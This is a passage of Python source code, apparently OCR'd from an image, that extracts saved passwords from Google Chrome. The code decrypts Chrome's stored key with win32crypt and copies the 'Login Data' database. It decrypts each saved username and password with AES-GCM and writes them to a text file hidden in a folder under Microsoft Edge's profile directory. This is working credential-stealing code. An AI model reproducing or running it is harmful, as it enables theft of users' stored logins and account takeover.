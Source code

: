 
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])

    key = key[5:]

    return win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]

def chrome_decrypt_password(password, key):
    try:
        # get the initialization vector
        iv = password[3:15]
        password = password[15:]
        # generate cipher
        cipher = AES.new(key, AES.MODE_GCM, iv)
        # decrypt password
        return cipher.decrypt(password)[:-16].decode()
    except:
        try:
            return str(win32crypt.CryptUnprotectData(password, None, None, None, 0)[1])
        except:
            # not supported
            return ""


def chrome_pass():

    key = chrome_get_encryption_key()

    db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                            "Google", "Chrome", "User Data", "default", "Login Data")

    filename = "ChromeData.db"
    shutil.copyfile(db_path, filename)

    db = sqlite3.connect(filename)
    cursor = db.cursor()

    cursor.execute("select origin_url, action_url, username_value, password_value, date_created, date_last_used from logins order by date_created")
    direc = os. getcwd()

    try:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
        os.mkdir(dir)
    except:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
    fileloc = '\\chrome_pass.txt'
    fileloc = dir+fileloc
    f = open(fileloc,"w+")
    for row in cursor.fetchall():
        origin_url = row[0]
        action_url = row[1]
        username = row[2]
        password = chrome_decrypt_password(row[3], key)
        date_created = row[4]
        date_last_used = row[5]        
        if username or password: